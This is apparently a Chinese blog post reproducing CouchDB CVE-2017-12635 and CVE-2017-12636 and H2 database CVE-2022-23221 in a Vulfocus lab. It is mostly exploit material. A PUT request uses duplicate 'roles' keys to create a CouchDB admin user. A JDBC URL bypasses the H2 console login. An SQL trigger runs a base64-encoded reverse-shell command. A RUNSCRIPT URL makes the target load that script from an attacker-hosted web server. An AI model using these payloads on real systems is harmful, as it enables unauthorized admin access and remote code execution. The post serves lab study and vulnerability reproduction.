


# Couchdb-权限绕过--命令执行--(CVE-2017-12635)&&(CVE-2017-12636)--H2database 命令执行--(CVE-2022-23221) - 了了青山见 - 博客园

> 原文：[`www.cnblogs.com/Pengj/p/17721192.html`](https://www.cnblogs.com/Pengj/p/17721192.html)

# Couchdb-权限绕过--命令执行--(CVE-2017-12635)&&(CVE-2017-12636)--H2database 命令执行--(CVE-2022-23221)

## 环境概述

采用 Vulfocus 靶场环境进行复现，搭建操作和文章参考具体搭建教程参考[vulfocus 不能同步的解决方法/vulfocus 同步失败](https://blog.csdn.net/m0_64563956/article/details/131229046)。

## Couchdb CVE-2017-12635 权限绕过

### 漏洞概述

Apache CouchDB 是一个开源数据库，专注于易用性和成为"完全拥抱 web 的数据库"。它是一个使用 JSON 作为存储格式，JavaScript 作为查询语言，MapReduce 和 HTTP 作为 API 的 NoSQL 数据库。应用广泛，如 BBC 用在其动态内容展示平台，Credit Suisse 用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web 和应用程序）。在 2017 年 11 月 15 日，CVE-2017-12635 和 CVE-2017-12636 披露利用。

### 默认端口

5984 端口

### 影响范围

小于 1.7.0 以及 小于 2.1.1

### 漏洞复现

将 Vulfocus 靶场环境启动后，根据映射端口号进行访问

访问成功后显示出版本号

访问登录界面抓包进行测试
访问地址

```
/_utils/#login 
```


抓包将请求方法修改为 PUT 方法，在请求数据包后面添加 json 数据
POC

```
PUT /_users/org.couchdb.user:hack HTTP/1.1
Host: IP 地址加端口
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "hack",
  "roles": ["_admin"],
  "roles": [],
  "password": "hack"
} 
```

对应位置修改想要创建的用户及密码即可

使用创建的用户名和密码尝试登录，成功登录即漏洞利用成功

## Couchdb CVE-2017-12636 命令执行

### 默认端口

5984 端口

### 影响范围

小于 1.7.0 以及 小于 2.1.1

### 漏洞利用

这个漏洞利用需要建立在具有用户权限之上，可以利用 CVE-2017-12635 漏洞添加数据库用户后进行命令执行

环境启动后直接下载 EXP，修改 EXP 的目标地址的端口号以及目标数据库版本即可
下载地址参考 [CVE-2017-12636/exp.py](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py)
将 EXP 中所执行的命令目标以及数据库版本修改即可


## H2database CVE-2022-23221 命令执行

### 漏洞概述

Java SQL 数据库 H2,H2 的主要特点是：非常快，开源，JDBC API；嵌入式和服务器模式；内存数据库；基于浏览器的控制台应用程序。H2 数据库控制台中的另一个未经身份验证的 RCE 漏洞，在 v2.1.210+中修复。2.1.210 之前的 H2 控制台允许远程攻击者通过包含子字符串的 jdbc:h2:mem JDBC URL 执行任意代码。

### 影响范围

Spring Boot + H2

spring.h2.console.enabled=true

JDK < 6u201、7u191、8u182、11.0.1（LDAP）

### 默认端口

20051 端口

### 漏洞利用

环境启动后访问得到如下界面


1.  未授权进入：

*   将如下命令放入 JDBC URL 即可直接进入数据库

```
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\ 
```

2.  命令执行

*   首先创建 sql 文件,将 sql 文件放入服务器中，这里我使用 python 启用 web 服务，将 sql 文件放入家目录中

```
CREATE TABLE test (
     id INT NOT NULL
 );
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,base64 加密的反弹 shell 指令}|{base64,-d}|{bash,-i}");'; 
```

*   启用 web 服务

```
python3 -m http.server 端口 
```

*   使目标数据库加载远程 sql 文件

```
jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://搭建的 IP:端口/h2database.sql';\ 
```

以上内容仅作学习记录，如有错误或瑕疵，欢迎批评指正，感谢阅读。